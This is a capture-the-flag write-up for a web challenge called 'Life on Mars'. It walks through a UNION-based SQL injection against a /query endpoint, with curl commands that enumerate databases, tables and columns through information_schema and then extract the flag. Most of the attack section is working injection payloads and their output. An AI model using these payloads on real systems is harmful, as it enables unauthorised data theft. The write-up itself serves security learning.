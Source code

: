 # Life on Mars
- This challenge is a basic site that queries a database to display information about the various species of life on Mars.
- We have the `/query` route and can use that to make arbitrary db calls

## SQL injection
- We can use the search= query string to send our injection
### To get the databases:
```bash
$ curl "web.ctf.b01lers.com:1001/query?search=hellas_basin%20UNION%20SELECT%20666,%20table_schema%20FROM%20information_schema.tables;%20--%20-"

["666","information_schema"],["666","alien_code"],["666","aliens"]]
```
### To get the table_names
```bash
$ curl "web.ctf.b01lers.com:1001/query?search=hellas_basin%20UNION%20SELECT%20666,table_name%20FROM%20information_schema.tables%20WHERE%20table_schema%20NOT%20LIKE%20'information_schema';--%20-"
[...snip..., ["666","code"],["666","amazonis_planitia"],["666","arabia_terra"],["666","chryse_planitia"],["666","hellas_basin"],["666","hesperia_planum"],["666","noachis_terra"],["666","olympus_mons"],["666","tharsis_rise"],["666","utopia_basin"]]
```
- The 'code' table is not given, so lets see if its part of the `alien_code` database

### To get columns in code table
```bash
$ curl "web.ctf.b01lers.com:1001/query?search=hesperia_planum%20UNION%20SELECT%20666,%20column_name%20FROM%20information_schema.columns%20WHERE%20table_name='code';--%20-"
[...snip...,["666","id"],["666","code"]]
```


### To get the flag:
- Trying a valid query to alien\_code.code
```bash
$ curl "web.ctf.b01lers.com:1001/query?search=utopia_basin%20UNION%20SELECT%20id,%20code%20FROM%20alien_code.code;%20--%20-
[...snip...,["0","pctf{no_intelligent_life_here}"]]
```

# Flag
- pctf{no_intelligent_life_here}
